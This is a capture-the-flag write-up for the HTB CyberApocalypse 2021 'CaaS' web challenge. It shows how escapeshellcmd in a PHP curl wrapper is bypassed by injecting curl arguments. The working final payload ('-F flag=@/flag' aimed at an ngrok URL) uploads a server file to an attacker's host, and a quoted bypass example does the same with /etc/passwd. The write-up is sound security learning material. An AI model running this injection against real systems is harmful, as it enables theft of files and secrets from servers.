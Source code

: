 **CTF:** HTB CyberApocalypse 2021 <br>
**CHALLENGE:** CaaS<br>
**CATEGORY:** Web

## Prompt
>cURL As A Service or CAAS is a brand new Alien application, built so that humans can test the status of their websites. However, it seems that the Aliens have not quite got the hang of Human programming and the application is riddled with issues.

We're provided with both an IP:port, and a [.zip](./web_caas.zip) of the website's source code.

## Walkthrough
![caas splash page](caas_website.png)

Just a hunch from the splash page, this challenge is going to be about curl. ;-)

Looking through the page source, `main.js` references an api endpoint called curl that's expecting a POST request with `ip=value` in the data field.

```js
fetch('/api/curl', {
  method: 'POST',
  body: `ip=${host}`,
  headers: {
    'Content-Type': 'application/x-www-form-urlencoded'
  }
}
```

Let's see what we can do!

<br>**Step 0:** Use the web interface and see what happens.<br>
Spoiler alert: nothing happened. BUT this let me use Network tab of Firefox Developer Tools to "copy as cURL" and start playing with an initial API request.

<br>**Step 1:** Use the API as intended to understand what normal looks like

**request:**
```bash
curl 'http://178.62.93.166:30207/api/curl' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' \
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' \
--compressed -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' \
--data 'ip=127.0.0.1'
```

**response:** the page we asked for, wrapped in json <br>
```html
{"message":["<html>","<head>","\t<meta charset=\"UTF-8\">","\t<title>Health Check<\/title>","\t<meta name=\"viewport\" content=\"width=device-width, initial-scale=1, user-scalable=no\">","\t<link rel=\"icon\" href=\"\/static\/images\/favicon.png\">","\t<link rel=\"stylesheet\" href=\"\/static\/css\/main.css\"\/>","    <link href=\"https:\/\/fonts.googleapis.com\/css?family=Inconsolata:400,700|VT323\" rel=\"stylesheet\">","<\/head>","<body>","    <div class=\"main\">","        <h1>Health Checker 9000<\/h1>","        <p>Verify the status of a host by specifying an IP address.<\/p>","        <div class=\"margin\"><\/div>","        <p class=\"green\">[root@localhost] # curl <input autofocus contenteditable=\"true\" id=\"command\"><\/input><\/p>","        <center><textarea id=\"console-output\" readonly><\/textarea><\/center>","    <\/div>","<\/body>","<script src=\"\/static\/js\/main.js\"><\/script>","<\/html>"]}
```

<br>**Step 2:** Do something unexpected with the API to see what error cases look like

**request:**
```bash
curl 'http://178.62.93.166:30207/api/curl' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' \
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' \
--compressed -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' \
--data 'ip=127.0.0.1/flag'
```

**response:** nothing
```
{"message":[]}
```

<br>**Step 3:** Resign myself to the fact that I have to go through the provided php source code to figure out what's actually going on.

 The first thing I noticed was that there's a file named `flag` at the root of the unzipped file, which is what we're trying to get access to.
![directory listing shows a file named flag in the root](caas_source_directory.png)
<br><br>
The next file that sticks out is `/controllers/CurlController.php`:

```php
<?php
class CurlController
{
    public function index($router)
    {
        return $router->view('index');
    }

    public function execute($router)
    {
        $url = $_POST['ip'];

        if (isset($url)) {
            $command = new CommandModel($url);
            return json_encode([ 'message' => $command->exec() ]);
        }
    }
}
```
Now that we know what's handling our POST request, maybe we can break things :-D

<br>**Step 4:** See if we can do some kind escape to overwrite the `$url` parameter in `CurlController.php` to execute our own commands
**request:**
```bash
curl 'http://178.62.93.166:30207/api/curl' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' \
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' \
--compressed -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' \
--data "ip='];$url='whoami';//"
```

**response:** nope.
```
{"message":[]}
```

**Step 5-16:** flail.

**Step 17:** Recognize that things aren't working, and it's time for another approach.
Looking deeper through the provided source code, I found where curl is getting called in `/model/CommandModel.php`.

```php
$this->command = "curl -sL " . escapeshellcmd($url);
```

I wouldn't say I'm overly familiar with php, but searching the Internet for `escapeshellcmd` bypasses yielded [this gem](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md#curl). The premise is that you can use curl to include a local (to the web server) file in a POST request to a different web server of your choosing.

```php
$url = '-F password=@/etc/passwd http://example.com';
system(escapeshellcmd('curl '.$url));
```

The example uses `/etc/passwd`, but we can modify that to send the flag, which we know is in the root directory from the provided zip. To make this work, we also need to be hosting a publicly-routable web server that can handle POST requests. To handle the "publicly-routable" component, I used [ngrok](https://ngrok.com/), which provides a URL that exposes a local server behind a NAT or firewall (e.g. a home network where everything is NAT'd out a router). Spinning up a VPS would have been another viable option. On the web server front, I started with Python's simple server, and quickly learned that it does NOT handle POST requests. A quick Google, later and I found [something that did](https://gist.github.com/mdonkers/63e115cc0c79b4f6b8b3a6b797e485c7).

**Step 17a:** establish an ngrok tunnel and unique URL<br>
**Step 17b:** run a web server that can handle POSTed data<br>
**Step 17c:** pew pew curl pew pew<br>
**Step 17d:** flag!<br>

**request:**
```bash
curl 'http://178.62.93.166:30207/api/curl' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' \
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' \
--compressed -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' \
--data "ip=-F flag=@/flag https://078b894bbeba.ngrok.io"
```

**response:** captured POST to our web server has the flag!<br><br>
![caas file retrieval with curl](caas_solved.png)
